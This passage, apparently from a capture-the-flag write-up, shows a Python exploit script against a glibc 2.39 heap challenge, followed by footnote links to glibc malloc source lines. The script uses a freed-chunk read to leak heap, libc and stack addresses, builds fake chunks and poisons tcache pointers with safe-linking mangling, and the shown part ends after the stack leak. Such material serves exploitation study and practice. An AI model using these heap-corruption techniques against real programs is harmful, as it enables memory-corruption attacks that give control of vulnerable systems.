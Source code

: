 ```python
create(0, b"a")
create(1, b"b")
create(2, b"c")
delete(0)
delete(1)

out = read(0)
heap_leak = u64(out[:8])
heap_base = heap_leak << 12
log.info(f"{heap_base=:#x}")

chunks = heap_base + 0x2A0

"""
fake chunk 2 is needed to show that fake chunk 1 is in use to prevent forward
consolidation which could throw `corrupted size vs. prev size` error when
freeing fake chunk 3

fake chunk 3 (large)
fake chunk 1
fake chunk 2
"""

# setup fake chunk 1 and 2
update(1, p64(mangle(chunks + 1 * 0x30, chunks + 0x580)))
create(3, b"e")
create(4, flat(0, 0x21, 0, 0, 0, 0x21))

update(0, flat(0, 0))
update(1, flat(0, 0))
delete(0)
delete(1)

# setup fake chunk 3
update(1, p64(mangle(chunks + 1 * 0x30, chunks + 0x70)))
create(5, b"f")
create(6, flat(0, 0x511))
# free chunk 2 into unsorted bins
delete(2)

read(2)
libc_leak = u64(read(2)[:8])
libc.address = libc_leak - 0x203B20
log.info(f"{libc.address=:#x}")

update(0, flat(0, 0))
update(1, flat(0, 0))
delete(0)
delete(1)

update(1, p64(mangle(chunks + 1 * 0x30, libc.address + 0x2046D0)))
create(7, b"f")
create(8, p8(0))

stack_leak = u64(read(8)[0x10:0x18])
saved_rbp = stack_leak - 0x148
log.info(f"{stack_leak=:#x}")
log.info(f"{saved_rbp=:#x}")

update(0, flat(0, 0))
update(1, flat(0, 0))
delete(0)
delete(1)
```

[^1]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L329>
[^2]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4513>
[^3]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4678>
[^4]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4720>
[^5]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4538>
[^6]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4527>
[^9]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4041>
[^10]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3914>
[^11]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3977>
[^12]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4161>
[^99]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1812>